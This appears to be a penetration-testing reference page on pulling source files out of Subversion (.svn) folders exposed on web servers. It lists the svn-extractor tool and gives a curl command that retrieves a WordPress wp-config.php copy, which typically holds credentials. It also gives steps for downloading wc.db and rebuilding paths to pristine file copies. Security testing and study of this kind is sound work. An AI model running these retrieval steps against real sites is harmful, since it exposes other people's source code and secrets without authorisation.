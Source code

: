 # Subversion

> Subversion  (often abbreviated as SVN) is a centralized version control system (VCS) that has been widely used in the software development industry. Originally developed by CollabNet Inc. in 2000, Subversion was designed to be an improved version of CVS (Concurrent Versions System) and has since gained significant traction for its robustness and reliability. 

## Summary

* [Tools](#tools)
    * [svn-extractor](#svn-extractor)
* [Methodology](#methodology)
* [References](#references)

## Tools

### svn-extractor

* [anantshri/svn-extractor](https://github.com/anantshri/svn-extractor) - Simple script to extract all web resources by means of .SVN folder exposed over network. 
    ```powershell
    python svn-extractor.py --url "url with .svn available"
    ```

## Methodology

```powershell
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database from http://server/path_to_vulnerable_site/.svn/wc.db
    ```powershell
    INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
    ```
2. Download interesting files
    * remove \$sha1\$ prefix
    * add .svn-base postfix
    * use first byte from hash as a subdirectory of the `pristine/` directory (`94` in this case)
    * create complete path, which will be: `http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base`

## References

- [SVN Extractor for Web Pentesters - Anant Shrivastava - March 26, 2013](http://blog.anantshri.info/svn-extractor-for-web-pentesters/)